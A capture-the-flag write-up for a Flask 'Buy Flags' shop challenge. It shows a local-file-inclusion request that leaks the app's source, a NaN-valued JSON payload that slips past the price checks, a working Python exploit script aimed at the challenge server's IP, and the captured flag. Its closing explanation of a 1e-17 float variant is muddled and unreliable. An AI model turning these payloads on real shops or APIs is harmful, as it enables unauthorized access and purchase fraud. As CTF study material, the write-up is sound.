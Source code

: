 # Buy Flags

This is a shopping page that client can buy flag, but client doesn't get enough money to buy it (1 or 10, I'm not sure.).

First, with url like: `http://46.101.173.61/image?name=asis.png`, we can leak the source code using LFI vulnerability.

From header's message leak, we guess it uses Flask framework, so let's request:
```
http://46.101.173.61/image?name=app.py
```

Then get the source back:
```python=
from flask import Flask, Response, render_template, session, request, jsonify

app = Flask(__name__)
app.secret_key = open('private/secret.txt').read()

flags = {
    'fake1': {
        'price': 125,
        'coupons': ['fL@__g'],
        'data': 'fake1{this_is_a_fake_flag}'
    },
    'fake2': {
        'price': 290,
        'coupons': ['fL@__g'],
        'data': 'fake2{this_is_a_fake_flag}'
    },
    'asis': {
        'price': 110,
        'coupons': [],
        'data': open('private/flag.txt').read()
    }
}

@app.route('/')
def main():
    if session.get('credit') == None:
        session['credit'] = 0
        session['coupons'] = []
    return render_template('index.html', credit = session['credit'])
    #return 'Hello World!<br>Your Credit is {}<br>Used Coupons is {}'.format(session.get('credit'), session.get('coupons'))

@app.route('/image')
def resouce():
    image_name = request.args.get('name')
    if '/' in image_name or '..' in image_name or 'private' in image_name:
        return 'Access Denied'
    return Response(open(image_name).read(), mimetype='image/png')

@app.route('/pay', methods=['POST'])
def pay():
    data = request.get_json()

    card = data['card']
    coupon = data['coupon']

    if coupon.replace('=','') in session.get('coupons'):
        return jsonify({'result': 'the coupon is already used'})

    for flag in card:
        if flag['count'] <= 0:
            return jsonify({'result':'item count must be greater than zero'})

    discount = 0
    for flag in card:
        if coupon.decode('base64').strip() in flags[flag['name']]['coupons']:
            discount += flag['count'] * flags[flag['name']]['price']

    credit = session.get('credit') + discount

    for flag in card:
        credit -= flag['count'] * flags[flag['name']]['price']
        
    if credit < 0:
        result = {'result': 'your credit not enough'}
    else:
        result = {'result': 'pay success'}
        result_data = []
        for flag in card:
            result_data.append({'flag': flag['name'], 'data': flags[flag['name']]['data']})
        result['data'] = result_data
        session['credit'] = credit
        session['coupons'].append(coupon.replace('=',''))
    return jsonify(result)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

Cuz we have no price, we need coupon to make this purchase happen.

First, take a look 

```python
    for flag in card:
        if flag['count'] <= 0:
            return jsonify({'result':'item count must be greater than zero'})
    ...
    discount += flag['count'] * flags[flag['name']]['price']
    #not important here
    ...
    credit -= flag['count'] * flags[flag['name']]['price']
    #just make sure flag['count'] * flags[flag['name']]['price'] = 0
    #Then will make credit >= 0
    ...
    if credit < 0:
        result = {'result': 'your credit not enough'}
```

Chal try to make sure our coupon cannnot turn item price into zero.

Now, we need a payload that make `if flag['count'] <= 0` == false, and `flag['count'] * flags[flag['name']]['price']` == 0.

What can make this happen? `NaN` or more exactly: [`float-point issue`](https://docs.python.org/3/tutorial/floatingpoint.html).

```python
>>> json.loads('{"a": NaN}')['a']
nan
>>> type(json.loads('{"a": NaN}')['a']) #This is float-point issue
<type 'float'>
>>> json.loads('{"a": NaN}')['a'] <= 0 #bypass "if flag['count'] <= 0:"
False
>>> (1-json.loads('{"a":NaN}')['a'])<0 #bypass "if credit < 0:"
False
```

With this result, will can construct a payload to make `app.py/pay()` print the flag.

```JSON
{
    "card": [
        {
            "count": NaN,
            "name": "asis"
        }
    ],
    "coupon": ""
}
```

Here's final payload script from [hackability](https://ctftime.org/writeup/9913):
```python
import requests

url = "http://46.101.173.61/pay"

headers = {
    'Host': '46.101.173.61',
}

r = requests.get("http://46.101.173.61", headers=headers)

print r.content
print r.headers
print

headers['Cookie'] = r.headers['Set-Cookie']
headers['Content-Type'] = "application/json"
headers['X-Requested-With'] = "XMLHttpRequest"

# card sequence is matter of result
data = '''{"card":[{"name":"asis", "count":NaN}],"coupon":""}'''
#data = '''{"card":[{"name":"fake2", "count":1}],"coupon":"%s"}''' % ("fL@__g".encode("base64").strip())
r = requests.post(url, headers=headers, data=data)

print r.headers
print r.content
```

This is final answer:

```python
{"data": [{"data": "ASIS{th1@n_3xpens1ve_Fl@G}\n", "flag": "asis"}], "result": "pay success"}
```

Another way, float-point issue:

## Float-point Issue
Python turn float into int drop after 17 digits (`1e-17` or `0.00000000000000001`).
However, when they calculate multiplication, they support `1e-10` to `1e-32` float value.
That means `1e-17` can false both `if flag['1e-17'] <= 0:` and `if (1-110*1e-17) < 0:`.

Just change exploit script's `NaN` to `1e-17` in JSON.